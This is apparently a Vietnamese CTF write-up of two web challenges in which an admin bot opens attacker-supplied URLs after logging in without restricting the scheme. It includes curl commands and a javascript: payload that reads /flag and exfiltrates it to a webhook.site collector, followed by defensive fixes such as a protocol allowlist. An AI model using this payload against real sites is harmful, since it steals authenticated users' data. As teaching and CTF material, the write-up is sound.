

# Mirror Temple / Mirror Temple B-Side — Writeup


Bài viết này tổng hợp cách giải cho cả **Mirror Temple** và **Mirror Temple B-Side**. Hai bản có khác nhau một chút ở phần frontend và CSP, nhưng lỗi cốt lõi hoàn toàn giống nhau: **admin bot đăng nhập vào ứng dụng, lưu flag thật trong session đã xác thực, rồi truy cập một URL do người chơi cung cấp mà không hề giới hạn scheme của URL đó**.



## Tóm tắt ý tưởng

Ở cả hai challenge, ứng dụng lưu dữ liệu người dùng trong một cookie JWT đã được ký, tên là `save`. Admin bot sẽ:

1. vào `/postcard-from-nyc`
2. điền form với tên `Admin` và **flag thật**
3. submit form để tạo session hợp lệ
4. sau đó truy cập URL do người chơi gửi qua `/report`

Sai lầm chí mạng nằm ở chỗ bot chỉ kiểm tra URL bằng `new URL(targetUrl)` rồi dùng thẳng `page.goto(targetUrl)`:

```js
try {
  new URL(targetUrl)
} catch {
  process.exit(1)
}

await page.goto(targetUrl, { waitUntil: "domcontentloaded", timeout: 10_000 })
```

`new URL(...)` chỉ kiểm tra xem chuỗi đó **có phải là một URL hợp lệ về mặt cú pháp hay không**. Nó **không hề giới hạn protocol** là `http:` hay `https:`. Vì thế các scheme như `javascript:` vẫn được chấp nhận.

Mà bot lúc này đã đăng nhập vào ứng dụng ở origin `http://localhost:8080`, nên nếu ta điều hướng bot tới một URL kiểu `javascript:...`, đoạn JavaScript đó sẽ được thực thi trong context đã xác thực. Từ đó ta có thể đọc `/flag` và gửi flag ra ngoài.

---

## Các đoạn code quan trọng

### `chall/admin.mjs`

```js
const targetUrl = process.argv[2]
if (!targetUrl) {
  console.error("usage: node admin.mjs <url>")
  process.exit(1)
}

try {
  new URL(targetUrl)
} catch {
  console.error("invalid url")
  process.exit(1)
}

const flag = (await readFile("/flag.txt", "utf8")).trim()

const page = await browser.newPage()

await page.goto("http://localhost:8080/postcard-from-nyc", { waitUntil: "domcontentloaded", timeout: 10_000 })

await page.type("#name", "Admin")
await page.type("#flag", flag)
await Promise.all([
    page.waitForNavigation({ waitUntil: "domcontentloaded", timeout: 10_000 }),
    page.click(".begin")
])

await page.goto(targetUrl, { waitUntil: "domcontentloaded", timeout: 10_000 }).catch(e => console.error(e))
```

Đây là toàn bộ luồng của bot:

* đọc flag thật từ `/flag.txt`
* mở trang `/postcard-from-nyc`
* nhập `Admin` và flag thật
* submit để tạo session đã đăng nhập
* truy cập URL do attacker cung cấp

Vấn đề là bước cuối cùng không hề lọc scheme của URL.

### `report` endpoint

```kotlin
@PostMapping("/report", produces = [MediaType.TEXT_PLAIN_VALUE])
@ResponseBody
fun report(@RequestParam("url") url: String): String {
    runCatching {
        ProcessBuilder("node", "admin.mjs", url)
            .inheritIO()
            .start()
    }
    return "your report will be scrutinized soon"
}
```

Endpoint `/report` chỉ đơn giản là nhận URL từ người chơi rồi gọi bot với URL đó.

### `flag` endpoint

```kotlin
@GetMapping("/flag", produces = [MediaType.TEXT_PLAIN_VALUE])
@ResponseBody
fun getFlag() = currentSave().flag
```

Endpoint `/flag` trả về `flag` trong session hiện tại. Điều đó có nghĩa là:

* nếu là user thường, `/flag` trả về fake flag hoặc giá trị mình tự nhập
* nếu là admin bot, `/flag` trả về **flag thật**

Đây chính là mục tiêu cần đọc sau khi chiếm được context của bot.

---

## Phân tích lỗ hổng

Đường khai thác của bài này thật ra rất thẳng:

1. bot đăng nhập vào ứng dụng bằng cách submit `/postcard-from-nyc`
2. flag thật được lưu trong cookie `save`
3. bot truy cập URL do attacker gửi qua `/report`
4. do `javascript:` vẫn được chấp nhận, attacker có thể chạy JavaScript trong context của bot
5. payload đọc `/flag` rồi exfiltrate ra ngoài

Có một chi tiết vận hành nhỏ nhưng quan trọng: endpoint `/report` yêu cầu ta cũng phải có một session hợp lệ của riêng mình. Vì vậy trước khi gửi report, ta cần submit form bình thường một lần để lấy cookie `save`.

---

# Part 1: Mirror Temple

## Những thứ dễ gây nhiễu

Ở bản đầu tiên, challenge có khá nhiều bề mặt trông rất đáng nghi:

* `/proxy` có thể forward URL tùy ý
* `mirror` có thể chèn response header
* CSP nhìn khá lỏng với cơ chế hash

Những thứ này rất dễ khiến người làm nghĩ đến SSRF, header injection hoặc CSP bypass. Nhưng đó không phải intended solve. Lỗi sạch và trực tiếp nhất vẫn là: **admin bot không giới hạn scheme khi mở URL do người dùng cung cấp**.

## Cách khai thác

Đầu tiên, tạo một session hợp lệ bằng cách submit postcard bình thường:

```bash
curl -i -X POST 'https://mirror-temple-dee860f3e5d3.ctfi.ng/postcard-from-nyc' \
  --data-urlencode 'name=test' \
  --data-urlencode 'flag=dice{test}' \
  --data-urlencode 'portrait='
```

Lệnh này sẽ trả về một cookie `save=...`.

Sau đó gửi report với payload `javascript:`:

```bash
curl -X POST 'https://mirror-temple-dee860f3e5d3.ctfi.ng/report' \
  -H 'Cookie: save=YOUR_COOKIE_HERE' \
  --data-urlencode "url=javascript:fetch('/flag').then(r=>r.text()).then(f=>location='https://webhook.site/token/?flag='+encodeURIComponent(f))"
```

## Payload hoạt động thế nào

Payload trên làm đúng 3 việc:

1. gọi `fetch('/flag')`
2. đọc nội dung trả về
3. chuyển hướng trình duyệt tới webhook của mình, kèm flag trong query string

Khi bot xử lý report, Chromium sẽ evaluate URL `javascript:` đó trong context đã đăng nhập của ứng dụng. Vì bot đang mang session admin, lệnh `fetch('/flag')` sẽ trả về **flag thật** chứ không phải fake flag.

Sau đó bot tự redirect tới webhook của ta, và flag sẽ xuất hiện trong request log.

## Kết quả

**Flag:**

```text
dice{evila_si_rorrim_eht_dna_gnikooc_si_tnega_eht_evif_si_emit_eht_krad_si_moor_eht}
```

---

# Part 2: Mirror Temple B-Side

## Điểm khác biệt so với bản đầu

Bản B-Side thay đổi frontend khá nhiều:

* CSS được inline
* script dùng hash/integrity
* CSP chặt hơn
* `frame-src` và `frame-ancestors` bị siết lại

Nhìn qua thì có cảm giác bản này đã được harden tốt hơn. Nhưng thực tế những thay đổi đó **không vá lỗi gốc**.

Lý do rất đơn giản: bot vẫn giữ nguyên chỗ nguy hiểm nhất:

* vẫn dùng `new URL(...)`
* vẫn `page.goto(targetUrl)` sau khi đã đăng nhập
* vẫn không hề chặn `javascript:`

Cho nên dù frontend có đổi thế nào, đường khai thác vẫn y hệt.

## Cách khai thác

Tạo session hợp lệ:

```bash
curl -i -X POST 'https://mirror-temple-b-side-9be2c8698e1c.ctfi.ng/postcard-from-nyc' \
  --data-urlencode 'name=test' \
  --data-urlencode 'flag=dice{test}' \
  --data-urlencode 'portrait='
```

Sau đó gửi report với `javascript:` URL:

```bash
curl -X POST 'https://mirror-temple-b-side-9be2c8698e1c.ctfi.ng/report' \
  -H 'Cookie: save=YOUR_COOKIE_HERE' \
  --data-urlencode "url=javascript:fetch('/flag').then(r=>r.text()).then(f=>location='https://webhook.site/token/?flag='+encodeURIComponent(f))"
```

Bot sẽ tiếp tục chạy payload trong context đã xác thực và gửi flag về collector.

## Kết quả

**Flag:**

```text
dice{neves_xis_cixot_eb_ot_tey_hguone_gnol_galf_siht_si_syawyna_ijome_lluks_eseehc_eht_rof_llef_dna_part_eht_togrof_i_derit_os_saw_i_galf_siht_gnitirw_fo_sa_sruoh_42_rof_ekawa_neeb_evah_i_tcaf_nuf}
```

---

# Root cause

Lỗi cốt lõi trong cả hai challenge là **tin rằng `new URL(...)` là một biện pháp bảo mật**. Thực ra nó chỉ là một parser URL, không phải bộ lọc an toàn.

Nó sẽ chấp nhận cả những protocol không phải web, ví dụ `javascript:`.

Nếu một bot chuẩn bị truy cập URL do attacker kiểm soát sau khi đã đăng nhập vào một origin nhạy cảm, thì bắt buộc phải **whitelist protocol** rõ ràng, ví dụ:

```js
const u = new URL(targetUrl)
if (!["http:", "https:"].includes(u.protocol)) {
  process.exit(1)
}
```

Ngoài ra, một số hướng phòng thủ bổ sung cũng nên có:

* tách bot sang origin khác với origin chứa dữ liệu nhạy cảm
* không để bot giữ session thật khi mở link ngoài
* chặn hoàn toàn `javascript:`, `data:`, `file:` và các scheme lạ
* dùng allowlist domain thay vì chỉ kiểm tra cú pháp URL

---

# Kết luận

Đây là một web challenge rất hay vì nhìn bề ngoài có nhiều thứ khiến người chơi bị phân tâm: proxy, CSP, header injection, frontend hardening... Nhưng intended solve lại nằm ở một lỗi rất cổ điển và rất thực tế:

**admin bot mở attacker-controlled URL sau khi đăng nhập, nhưng không giới hạn protocol.**

Chỉ cần vậy thôi là `javascript:` URL trở thành primitive để chạy code trong context của bot, đọc `/flag`, rồi exfiltrate flag ra ngoài.

Bản B-Side chỉ làm bài trông “cứng” hơn ở phía frontend, nhưng không đụng gì đến bug thật, nên cách khai thác giữ nguyên hoàn toàn.
